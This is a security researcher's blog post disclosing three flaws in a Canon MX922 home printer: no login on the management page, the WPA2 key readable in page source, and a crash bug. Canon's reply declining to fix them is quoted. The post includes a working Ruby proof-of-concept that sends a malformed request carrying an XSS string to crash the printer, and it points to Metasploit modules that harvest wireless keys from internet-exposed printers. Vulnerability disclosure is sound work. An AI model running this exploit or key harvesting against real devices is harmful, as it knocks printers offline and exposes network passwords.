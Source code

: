 ```yaml
---
layout: post
title: "Canon, Y U NO Security?"
date: "2013-06-18T08:23:00-04:00"
comments: true
categories:
 - http
 - printer
 - canon
 - security
 - hacking
---
```


{% img left /images/y-u-no-guy.jpg %}

I recently bought a new printer at home, so my wife could print coupons without manually attaching to my office printer each time (Thanks coupons.com and all the other shady sites that require spyware-like software to print coupons, and often don't support network printers). I ended up picking up a [Canon MX922](https://www.amazon.com/dp/B00AVWKUJS/ref=as_li_ss_til?tag=mattandcom-20&camp=0&creative=0&linkCode=as4&creativeASIN=B00AVWKUJS&adid=07S04SQ3X3C73H5QDS7T&). It works awesome for her, and is connected over WiFi, so any device in the house can print to it. This got me thinking though, about how secure it was.

<!-- more -->

## No Credentials For Management Interface
### CVE-2013-4613

I found the IP of the status page of my router, and browsed to it. I was greeted with this management page. 

{% img /images/printer_1.png %}

I then figured I'd look at some of the more advanced settings, so I clicked the "Advanced" link. This brought me to a control panel for the printer. I saw a bunch of information, and was surprised that I had not entered <b>any</b> credentials. I figured maybe the status page would be anonymous, but surely I'd need some password to access the management pages. But then again, I hadn't used any password when setting up the printer using the LCD.

## Disclosure of Wireless Key and SSID
### CVE-2013-4614

I eventually browsed to the "Network Settings" tab, and saw my SSID of "Wireless". Not too bad, since it's broadcast in the air.

{% img /images/printer_2.png %}

I saw that it was using WPA2, as I configured. I clicked the "Modify" button, and saw that I could change all of the wireless settings. The worst was that when I saw the "Use WPA2" radio button, I saw that there was text in the password box.

{% img /images/printer_3.png %}

Assuming that there was a junk value in there, I viewed the source. Unfortunately, what I found was that the page did indeed have my printer's WPA2 password right there.

{% img /images/printer_4.png %}

I started thinking about this. It wasn't a <i>huge</i> issue, since you'd have to already know my WPA2 key to get to the printer, right? Oh, but what about if a device behind my firewall had been compromised by a remote attacker? The attacker would be free to navigate to my printer, and grab my password. If I was like just about every other person I talk to, I probably use the same password on everything, so I don't have to remember unique passwords. That means now an attacker could potentially login to my email, my SSH server, or even other machines on my LAN. This scared me slightly. 

After a while, I started thinking that perhaps there were people that could potentially put their printers directly connected to the internet, and have these management interfaces publicly exposed to anonymous clients. I checked out the [ShodanHQ](http://www.shodanhq.com/search?q=port%3A80+KS_HTTP+1.0) (FYI, it seems also Minolta uses this server banner as well). I saw that there were nearly 15,000 at the time of this writing, so I wrote up a quick Metasploit module to enumerate the information. It is located [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/http/canon_wireless.rb). Below is sample output from a selection of hosts I got from ShodanHQ and a host that should time out, as a control sample.

{% img /images/printer_5.png %}

## Denial of Service
### CVE-2013-4615

I kept playing around with the configuration interface, and while tinkering with some inputs in [Burp](http://portswigger.net/burp/), the device stopped responding. I walked to the other room, where we keep the printer, and noticed that it was completely unresponsive. I had to power-cycle the device, to which it came back up and told me it wasn't powered down properly.

When I reported this to Canon, they asked me for more information, so I provided them the following code as a proof-of-concept.

```
#!/usr/bin/ruby

require 'net/http'
require 'uri'

print 'Enter your printer IP Address: '
input = gets.strip

printer_url = "http://#{input}"

# Make the first request, to set the IP to invalid data
post = Net::HTTP.post_form(URI.parse(printer_url + '/English/pages_MacUS/cgi_lan.cgi'),
{'OK.x' => '61', 'OK.y' => '12', 'LAN_OPT1' => '2', 'LAN_TXT1' => 'Wireless', 'LAN_OPT3' => '1', 'LAN_TXT21' => '192', 
'LAN_TXT22' => '168', 'LAN_TXT23' => '1', 'LAN_TXT24' => '114"><script>alert(\'xss\');</script>', 'LAN_TXT31' => '255',
'LAN_TXT32' => '255', 'LAN_TXT33' => '255', 'LAN_TXT34' => '0', 'LAN_TXT41' => '192', 'LAN_TXT42' => '168', 
'LAN_TXT43' => '1', 'LAN_TXT44' => '1', 'LAN_OPT2' => '4', 'LAN_OPT4' => '1', 'LAN_HID1' => '1'})

# Make the second request, to trigger the DoS
begin
get = Net::HTTP.get(URI.parse(printer_url + '/English/pages_MacUS/lan_set_content.html'))
rescue Timeout::Error
puts 'Look at your printer to see it is unresponsive.'
end
```

If you look closely, you can see that I was testing for Cross-Site-Scripting, and put HTML in the "LAN_TXT24" input box. Canon's javascript validation prevents this, but nothing stops you from manipulating the HTTP response. This is a prime example of why server-side validation is also required.

I ended up turning this into a Metasploit module as well. You can find it available [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/dos/http/canon_wireless_printer.rb). It works pretty similarly to most DoS modules:

{% img /images/printer_6.png %}

## Canon's Response

I responsibly disclosed these vulnerabilities to Canon, but they apparently don't deem them worthy of being fixed. I don't think they really "get it". Since they aren't going to fix it, I am releasing these details publicly. Below is their reply:

{% blockquote %}
Dear Mr. Andreko,

Thank you for your patience in allowing Canon to respond.  We have confirmed that the two issues you described in your May 27th e-mail can occur in certain printers such as the MX922.  However, with respect to the issue of no password by default, please note that the inkjet printers which have network functionality such as the MX922 are designed for home use which is supposed to be secured.  For this reason, and for user convenience, the default setting does not require a password.  However, if a user has a particular concern about third parties accessing the user’s home printer, the default setting can be changed to add a password.

Similarly, regarding the DoS issue, Canon believes that its printers will not have to deal with unauthorized access to the network from an external location as long as the printers are used in a secured environment.  The issue you described could only occur when unauthorized access to an unsecured network takes place from the outside.  Canon has long advised customers to ensure that their computers and printers are secured when used in a wireless LAN environment.  We will continue advising customers to use our inkjet printers in a secured network environment with a firewall.  However, even if the printer were not used in a secure environment, in the unlikely chance that this type of access occurred from outside, the printer would simply have to be unplugged and re-plugged to ensure normal operation.  In addition, if the network security settings on the printer had been changed by the external source as a result of the incident, then they would have to be changed back to the default settings along with unplugging and re-plugging the power cord to ensure normal operation.

Again, we thank you for giving Canon the opportunity to investigate these issues and to respond to your concerns.

Best regards,
Joy
Executive Response Representative
Canon Customer Relations
customer@cits.canon.com
866-886-1901, x 2130
{% endblockquote %}

I understand, these vulnerabilites aren't super high priority. They're no ms08-067. But I would still think a vendor would want to fix them. When searching ShodanHQ, I found a bunch of printers from UCLA. I can only imagine the chaos when it becomes finals-week, and all the printers on campus stop working randomly. That'd be bad PR for Canon. Who knows what else is out there. I'd personally be interested in dumping the firmware of the printer, and seeing if there's a way to get remote code execution out of a crash. I'll chalk that up to my TODO list.
